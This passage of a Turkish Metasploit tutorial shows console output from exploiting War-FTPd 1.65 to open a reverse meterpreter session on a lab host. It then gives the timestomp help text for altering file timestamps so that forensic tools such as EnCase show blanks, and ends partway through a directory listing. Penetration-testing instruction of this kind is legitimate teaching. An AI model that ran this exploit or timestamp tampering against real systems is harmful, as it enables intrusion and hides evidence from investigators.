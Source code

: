 

Yukarıda, `test.txt` isimli dosyanın zaman kayıtlarını görebiliriz. Şimdi, `warftpd_165_user` modülünü kullanarak bu sistemde `Meterpreter` oturum açtığımızı farz edelim.


```bash
msf exploit**(**warftpd_165_user**)** > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Connecting to FTP server 172.16.104.145:21...
> Connected to target FTP server.
> Trying target Windows 2000 SP0-SP4 English...
> Transmitting intermediate stager **for **over-sized stage...**(**191 bytes**)**
> Sending stage **(**2650 bytes**)**
> Sleeping before handling stage...
> Uploading DLL **(**75787 bytes**)**...
> Upload completed.
> meterpreter session 1 opened **(**172.16.104.130:4444 -> 172.16.104.145:1218**)**
meterpreter > use priv
Loading extension priv...success.
```



Meterpreter shell açıldıktan sonra `timestomp -h` komutu ile yardım bilgilerini görüntüleyebilirsiniz.


```bash
meterpreter > timestomp -h

Usage: timestomp OPTIONS file_path

OPTIONS:

    -a   Set the "last accessed" time of the file
    -b        Set the MACE timestamps so that EnCase shows blanks
    -c   Set the "creation" time of the file
    -e   Set the "mft entry modified" time of the file
    -f   Set the MACE of attributes equal to the supplied file
    -h        Help banner
    -m   Set the "last written" time of the file
    -r        Set the MACE timestamps recursively on a directory
    -v        Display the UTC MACE values of the file
    -z   Set all four attributes **(**MACE**)** of the file
```



Şimdi, yukarıda örneğini verdiğimiz `test.txt` dosyasının bulunduğu klasöre gidelim.


```bash
meterpreter > pwd
C:\Program Files\War-ftpd
meterpreter > cd ..
meterpreter > pwd
C:Program Files
meterpreter > cd ..
meterpreter > cd Documents\ and\ Settings
meterpreter > cd P0WN3D
meterpreter > cd My\ Documents
meterpreter > ls

Listing: C:\Documents and Settings\P0WN3D\My Documents
**======================================================**

Mode              Size  Type  Last modified                   Name        
----              ----  ----  -------------                   ----        
```